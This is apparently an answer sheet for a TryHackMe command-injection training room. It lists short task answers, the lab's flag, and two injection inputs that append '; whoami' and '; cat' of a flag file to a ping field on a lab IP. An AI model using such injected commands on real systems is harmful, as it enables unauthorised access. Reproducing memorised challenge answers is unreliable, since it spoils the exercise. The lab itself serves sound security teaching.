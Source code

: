 # THM - Command Injection

<br>

## Task 2

### Task 2.1

> $title

### Task 2.2

> GET

### Task 2.3

> /id

<br>

## Task 3

### Task 3.1

> whoami

### Task 3.2

> ping

### Task 3.3

> timeout

<br>

## Task 4

### Task 4.1

> sanitisation

<br>

## Task 5

http://10.10.150.145/

### Task 5.1

input: 127.0.0.1 >> /dev/null ; whoami

> www-data

### Task 5.2

input: 127.0.0.1 >> /dev/null ; cat /home/tryhackme/flag.txt

> THM{COMMAND_INJECTION_COMPLETE}

